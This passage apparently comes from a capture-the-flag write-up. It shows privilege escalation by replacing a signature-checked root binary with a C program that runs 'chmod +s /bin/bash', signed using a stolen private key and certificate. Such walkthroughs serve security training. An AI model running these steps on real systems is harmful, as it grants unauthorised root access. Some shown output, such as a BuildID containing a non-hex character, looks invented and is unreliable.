 We find out the `monitor` binary is a 64-bit ELF file (C compiled binary):
```bash
file /opt/AV/periodic-checks/monitor
```
```
/opt/AV/periodic-checks/monitor: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d4f8c5b6c7e8f9a0b1c2d3e4f5a6b7c8d9e0f1g2, with debug_info, not stripped
```

We find out the `monitor` binary is signed with a certificate:
```bash
cat /opt/AV/periodic-checks/status.log
```
```
objcopy: /opt/AV/periodic-checks/monitor: can't dump section '.text_sig' - it does not exist: file format not recognized
[ERROR] Executable not signed. Tampering attempt detected. Skipping.
```

So we can try to sign the binary with the certificate we found earlier in the `signing.zip` file in ftp server.

First, we will compile a C program that will execute the command to add SUID permission to `/bin/bash`:
```bash
echo "#include <stdio.h>
#include <stdlib.h>

int main() {
    // Comando a ejecutar
    const char *comando = \"chmod +s /bin/bash\";

    // Ejecuta el comando
    int resultado = system(comando);

    // Comprobamos si ha habido error
    if (resultado == -1) {
        perror(\"Error al ejecutar el comando\");
        return 1;
    }

    return 0;
}" > monitor.c
gcc -Wall monitor.c -o monitor
```
Then we create the signature for the binary using the `key.pem` file:
```bash
openssl cms -sign \
  -in monitor \
  -signer cert.pem -inkey key.pem \
  -outform DER -out monitor.sig -binary -nosmimecap -nocerts -noattr
```

Next, we can combine the binary and the signature into a single file:
```bash
objcopy --add-section .text_sig=monitor.sig monitor monitor.signed
```
